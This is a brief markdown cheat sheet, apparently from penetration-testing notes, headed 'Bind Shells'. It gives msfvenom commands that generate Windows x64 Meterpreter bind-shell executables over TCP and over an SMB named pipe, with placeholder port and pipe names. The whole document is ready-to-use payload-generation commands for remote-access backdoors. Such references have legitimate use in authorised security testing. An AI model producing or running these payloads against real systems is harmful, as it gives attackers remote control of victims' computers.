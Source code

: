 # Bind Shells

## 01 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f exe -o met-x86-64.exe
```

For the SMB pipe the default for LPORT will always be port **445**.

```
$ msfvenom -p windows/x64/meterpreter_bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x86-64.exe
```
